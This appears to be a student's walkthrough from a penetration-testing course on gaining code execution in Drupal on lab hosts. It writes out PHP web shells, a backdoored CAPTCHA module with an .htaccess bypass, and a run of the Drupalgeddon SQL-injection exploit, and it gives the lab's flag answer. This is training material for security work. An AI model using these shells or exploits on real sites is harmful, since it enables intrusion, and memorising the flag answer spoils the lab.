

# Attacking Drupal
## Leveraging the PHP Filter Module
In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the `PHP filter` module, which "Allows embedded PHP code/snippets to be evaluated."

From here, we could tick the check box next to the module and scroll down to `Save configuration`. Next, we could go to `Content` --> `Add content` and create a `Basic page`.

We can now create a page with a malicious PHP snippet such as the one below. 

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

We also want to make sure to set Text format drop-down to PHP code. After clicking save, we will be redirected to the new page, in this example http://drupal-qa.inlanefreight.local/node/3.

```sh
$ curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

From version 8 onwards, the PHP Filter module is not installed by default. To leverage this functionality, we would have to install the module ourselves. 

```sh
$ wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Once downloaded go to `Administration` > `Reports` > `Available updates`.

From here, click on `Browse`, select the file from the directory we downloaded it to, and then click Install.

Once the module is installed, we can click on `Content` and create a new basic page, similar to how we did in the Drupal 7 example.

## Uploading a Backdoored Module
Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module. Modules can be found on the drupal.org website. Let's pick a module such as [CAPTCHA](https://www.drupal.org/project/captcha). Scroll down and copy the link for the tar.gz [archive](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

Download the archive and extract its contents.

```sh
$ wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
$ tar xvf captcha-8.x-1.2.tar.gz
```

Create a PHP web shell with the contents:

```php
<?php
system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']);
?>
```

Next, we need to create a .htaccess file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the /modules folder.

```
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.

```sh
$ mv shell.php .htaccess captcha
$ tar cvf captcha.tar.gz captcha/
```

Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar. Next, click on the `+ Install new module` button, and we will be taken to the install page, such as http://drupal.inlanefreight.local/admin/modules/install Browse to the backdoored Captcha archive and click `Install`.

Once the installation succeeds, browse to `/modules/captcha/shell.php` to execute commands.

```sh
$ curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

## Questions
1. Work through all of the examples in this section and gain RCE multiple ways via the various Drupal instances on the target host. When you are done, submit the contents of the flag.txt file in the /var/www/drupal.inlanefreight.local directory. **Answer: DrUp@l_drUp@l_3veryWh3Re!**
   - Identify the drupal version:
   - Execute the `'Drupalgeddon' SQL Injection` to inject an admin user (`admin`:`admin`):
        ```sh
        $ searchsploit drupal
        <SNIP>
        Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Inject | php/webapps/34992.py
        <SNIP>
        $ find / -name "34992.py"
        find: ‘/opt/containerd’: Permission denied
        /usr/share/exploitdb/exploits/php/webapps/34992.py
        $ python2 /usr/share/exploitdb/exploits/php/webapps/34992.py -t http://drupal-qa.inlanefreight.local -u admin -p admin

        ______                          __     _______  _______ _____
        |   _  \ .----.--.--.-----.---.-|  |   |   _   ||   _   | _   |
        |.  |   \|   _|  |  |  _  |  _  |  |   |___|   _|___|   |.|   |
        |.  |    |__| |_____|   __|___._|__|      /   |___(__   `-|.  |
        |:  1    /          |__|                 |   |  |:  1   | |:  |
        |::.. . /                                |   |  |::.. . | |::.|
        `------'                                 `---'  `-------' `---'
        _______       __     ___       __            __   __
        |   _   .-----|  |   |   .-----|__.-----.----|  |_|__.-----.-----.
        |   1___|  _  |  |   |.  |     |  |  -__|  __|   _|  |  _  |     |
        |____   |__   |__|   |.  |__|__|  |_____|____|____|__|_____|__|__|
        |:  1   |  |__|      |:  |    |___|
        |::.. . |            |::.|
        `-------'            `---'

                                        Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                                    Admin 4cc0unt cr3at0r

                    Discovered by:

                    Stefan  Horst
                                (CVE-2014-3704)

                                Written by:

                                Claudio Viviani

                            http://www.homelab.it

                                info@homelab.it
                            homelabit@protonmail.ch

                        https://www.facebook.com/homelabit
                        https://twitter.com/homelabit
                        https://plus.google.com/+HomelabIt1/
            https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww


        [!] VULNERABLE!

        [!] Administrator user created!

        [*] Login: admin
        [*] Pass: admin
        [*] Url: http://drupal-qa.inlanefreight.local/?q=node&destination=node
        ```
   - Log in with the admin account (`admin`:`admin`) and create a PHP page containing a reverse shell: `Add Content` → `Basic Page`
        
   - Target the created page to gain the shell and find the flag:
        - Get the flag file name:
        ```
        http://drupal-qa.inlanefreight.local/node/3?cmd=ls%20/var/www/drupal.inlanefreight.local
        ```
        - Read the flag
        ```
        http://drupal-qa.inlanefreight.local/node/3?cmd=cat%20/var/www/drupal.inlanefreight.local/flag_6470e394cbf6dab6a91682cc8585059b.txt
        ```